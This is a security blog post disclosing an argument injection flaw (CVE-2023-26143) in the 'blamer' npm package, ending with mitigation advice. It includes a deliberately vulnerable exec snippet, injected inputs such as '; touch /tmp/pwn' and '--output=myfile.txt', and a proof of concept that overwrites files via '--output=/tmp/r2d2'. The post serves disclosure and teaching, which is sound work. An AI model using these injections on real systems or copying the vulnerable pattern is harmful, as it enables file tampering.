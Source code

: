 ```yaml
---
title: "Destroyed by Dashes: How Two Hyphens Cause Argument Injection Vulnerability in blamer npm Package"
description: >-
    Let's explore a recently disclosed argument injection flaw in the popular 'blamer' npm package that allowed overwriting arbitrary files by exploiting the 'git blame' command. By passing unchecked user input directly to the Linux command, attackers could trigger damaging behavior.
date: '2023-10-16'
pubDate: '2023-10-16'
categories: []
keywords: []
slug: destroyed-by-dashes-how-two-hyphens-cause-argument-injection-vulnerability-in-blamer-npm-package
draft: false
tags: ["command injection", "nodejs", "javascript", "security"]
image: ~/assets/images/blog/blamer-npm-package-argument-injection.png
---
```


Argument injection vulnerabilities are a serious threat all Node.js developers need to be aware of. These injection attacks allow malicious users to inject unintended options and arguments into commands run on your server. 

This blog post will explore an argument injection vulnerability recently disclosed in the `blamer` npm package and discuss best practices for avoiding similar issues.

We discuss how simple validation and sanitation of arguments can prevent such attacks. Follow at the end of this blog post for security best practices, such as using parameters instead of concatenation, prefixing arguments with `--` to prevent them from being interpreted as flags, and running commands with least privilege.

## What is Argument Injection?

Argument injection is a type of attack related to command injection vulnerabilities. It occurs when user-supplied input is passed unchecked into commands executed by an application. Attackers can craft malicious arguments that exploit flaws in how the command parses input. 

For example, consider a Node.js application that runs the Linux `grep` command to search log files:

```js
const searchTerm = req.query.search; 
const cmd = `grep ${searchTerm} /var/log/myapp.log`;
exec(cmd);
```

This code is vulnerable to argument injection. How exactly? An attacker could provide input like `--help` to trigger the help output for grep rather than searching. Even worse, they could specify arguments like `--output=myfile.txt` to write arbitrary files on the server.

Of course, the above example is a bit contrived and is vulnerable to a general case of command injection vulnerabilities, such as by providing user-supplied input such as `; touch /tmp/pwn`. However, it illustrates how dangerous unvalidated _arguments_ can be. Regardless, always be wary of passing unsanitized user input into sensitive commands.

## Real-World Argument Injection Example: blamer npm package

The vulnerability discussed in this post was discovered in the `blamer` npm package. Blamer is a tool for displaying Git blame information and code authorship details. 

According to its description:
> Blamer is a tool for get information about author of code from version control system. Supports git and subversion.

The `blamer` npm package is still quite popular, with over 50,000 weekly downloads at the time of writing. It serves as a useful utility for many developers using Git. Understanding the context and popularity of the affected package demonstrates how security issues in widely used tools can have broad impact across many applications and users.

![Snyk Advisor package health for blamer npm package](/images/blog/blamer-npm-package-argument-injection-snyk-advisor.png)

This npm package provides a simple API for running `git blame` on a given file path and returning the blame information as structured JSON data.

For example:

```js
const blamer = require('blamer');

const result = await blamer.blameByFile('index.js')
```

On June 22nd, 2023, I disclosed an argument injection flaw in the `blamer` npm package identified as 
[CVE-2023-26143](https://security.snyk.io/vuln/SNYK-JS-BLAMER-5731318).

However, this library failed to properly sanitize the file path passed to `git blame`. By exploiting the `--output` option, attackers could overwrite arbitrary files on the system.

Let's reproduce this vulnerability locally to see how it works:

1. Install the `blamer` npm package:

```bash
npm install blamer
```

2. Initialize a new Git repository and create a file to blame:

```bash
git init
echo "Hello World" > index.js
```

3. Run the `blamer` npm package to blame the file and write the following Node.js script:

```js
// you might need to set `type: module` in `package.json`
// if you're running this as a Node.js script initialized
// in an npm project

import Blamer from "blamer";
const blamer = new Blamer.default("git");

async function main() {
  const file = "--output=/tmp/r2d2";
  const result = await blamer.blameByFile(file);
  console.log("Blame json: %j", result);
}

main();
```

4. Finally, observe the new file created at `/tmp/r2d2`

This demonstrates how dangerous unvalidated command-line arguments can be. Always be wary of passing unsanitized user input into sensitive system APIs such as Node.js core `child_process` module that handles system processes.

The good news is that the `blamer` npm package maintainer responded to the vulnerability report and released a patched version. The fix was introduced in version `1.0.4` of the `blamer` npm package, which is now safe to use. Thank you [Andrey Kucherenko](https://github.com/kucherenko) ❤️

## Best Practices to Mitigate Argument Injection Vulnerabilities

Here are some tips for writing secure code that avoids argument injection vulnerabilities:

- **Validate and sanitize** any user input before passing it to a command. Strip dangerous characters and whitelist allowed values.

- **Use parameters instead of string concatenation** when building commands. Many command libraries support parameterization to avoid injection. 

- **Pass arguments individually** rather than a full command string. This helps avoid unintended parsing and gives more control.

- **Prefix arguments** with `--` to indicate the end of options. This prevents arguments from being interpreted as command flags/options.

- **Run commands with lowest privileges** possible. Use users with restricted permissions to limit potential impact.

- **Upgrade dependencies** promptly to get fixed versions that address known vulnerabilities.

Following security best practices like these will help write more robust code free of injection issues. Be especially careful when working with potentially dangerous commands like `git`, `grep`, `ssh`, and others. Preventing vulnerabilities like the one in `blamer` is important for building secure Node.js applications.

---

Want to secure your Node.js apps like a pro? Get Liran Tal's indispensable book [Node.js Secure Coding](https://www.nodejs-security.com/) and master battle-tested techniques to lock down your code against injection attacks and other exploits. Don't leave your apps at risk - skill up on Node.js security today.

